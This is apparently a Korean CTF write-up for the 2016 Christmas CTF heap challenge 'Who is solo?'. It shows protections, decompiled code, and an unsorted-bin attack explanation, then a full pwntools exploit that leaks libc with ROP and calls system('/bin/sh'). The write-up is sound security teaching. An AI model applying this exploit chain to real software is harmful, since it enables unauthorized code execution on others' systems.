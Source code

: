 ```yaml
---
title: "2016 Christmas CTF Who is solo?"
date: 2020-1-19
tags: [Christmas]
categories: [Christmas]
---
```


64비트 바이너리고 Partial RELRO, NX, FORTIFY가 걸려있다.

```
[*] '/vagrant/ctfs/solo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

메뉴는 5가지고 전형적인 힙 문제의 메뉴다. 

```
1. malloc
2. free
3. list
4. login
5. exit
```

함수들은 아래와 같은 기능들을 한다.

```
sub_4008D0 : print menu
sub_400930 : malloc only 4 chunks
sub_400B60 : free chunk
```

메인함수다.

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v4; // [rsp+Ch] [rbp-42Ch]
  void *buf; // [rsp+10h] [rbp-428h]
  char v6; // [rsp+18h] [rbp-420h]
  char v7; // [rsp+20h] [rbp-418h]
  char v8; // [rsp+28h] [rbp-410h]
  char v9; // [rsp+30h] [rbp-408h]

  setvbuf(stdout, 0LL, 2, 0x400uLL);
  sub_4008B0();
  v4 = 0;
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        do
        {
          sub_4008D0();
          __isoc99_scanf("%d", &v4);
        }
        while ( v4 == 3 );
        if ( v4 > 3 )
          break;
        if ( v4 == 1 )
        {
          sub_400930(&buf, &v6, &v7, &v8);      // 1. malloc
        }
        else
        {
          if ( v4 != 2 )
            return 0LL;
          sub_400B60(&buf, &v6, &v7, &v8);      // 2. free
        }
      }
      if ( v4 != 4 )
        break;
      if ( qword_602080 )                       // 4. login
      {
        __printf_chk(1LL, "Input password: ");
        read(0, &v9, 2000uLL); 									// vuln
      }
      else
      {
        puts("Login failed");
      }
    }
    if ( v4 != 201527 )
      break;
    __printf_chk(1LL, "Modify Data: ");
    read(0, buf, 300uLL);
  }
  return 0LL;
}
```

unsorted bin 취약점을 이용한 문제다. 

malloc(1,200,'AAAA'), malloc(2,200,'BBBB'), malloc(3,200,'CCCC') 할당

free(2) 해주면 fd,bk에는 main_arena+88주소가 적힌다. 

modify메뉴로 free된 2번 청크의 bk를 check해주는 (전역변수-16)로 덮어 fd,bk 조작해 원하는 주소에 값을 씀

전역변수 -16 해주는 이유는 unlink때 `FD->bk=BK; BK->fd=FD;`로 현재 chunk bk + 16위치에 현재 fd값이 들어가기 때문에 덮어쓸 주소 -16해준다. bk에 check -16을 넣어주면 unlink과정에서 check+0에 fd가 들어간다.

malloc(4,200,'DDDD) 할당

그러면 0으로 덮여있던 check는 main_arena + 88의 주소가 들어가있다.

Login 메뉴를 사용가능하다. 취약점 터지는 `read(0, &v9, 2000uLL);` 에서 rop해주면 됨.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
#context.log_level = 'debug'
e = ELF('./solo')
p = process('./solo')
libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
prdi = 0x00000000004008a0 # pop rdi ; ret
prsi_r15 = 0x0000000000400d11 # pop rsi ; pop r15 ; ret
check = 0x0000000000602080
main = 0x0000000000400680

# chunk max : 3
def malloc(num,size,data):
	sla('$','1')
	sla(':',str(num)) # Allocate Chunk Number:
	sla(':',str(size)) # Input Size:
	sa(':',data) # Input Data:

def free(num):
	sla('$','2')
	sla(':',str(num)) # Free Chunk number:

def modify(data):
	sla('$','201527')
	sa(':',data) # Modify Data:

def login(pay):
	sla('$','4')
	sla(':',pay) # Input password: 

def exit():
	sla('$','5')

# malloc -> num 1,2,3
malloc(1,200,'AAAAAAAA')
malloc(2,200,'BBBBBBBB')
malloc(3,200,'CCCCCCCC')
# free -> num 2
free(2)
#raw_input()
# modify -> num 2 -> bk(check - 16)
p1 = 'A'*200
p1 += p64(0xd1) # size
p1 += p64(0x0) # fd
p1 += p64(check - 0x10) # bk
modify(p1)
# malloc -> num 4
malloc(4,200,'DDDDDDDD')
p2 = 'A'*0x408
p2 += p64(prdi) + p64(check) + p64(e.plt['puts'])
p2 += p64(main)
login(p2) # leak main_arena + 88
exit()
libc_base = u64(p.recvuntil('\x7f')[-6:] + '\x00\x00') - 88 - 0x3c4b20
log.info('libc_base : ' + hex(libc_base))
# system('/bin/sh')
p3 = 'A'*0x408
p3 += p64(prdi) + p64(libc_base + libc.search('/bin/sh\x00').next()) + p64(libc_base + libc.symbols['system'])
login(p3)
exit()

p.interactive()
```

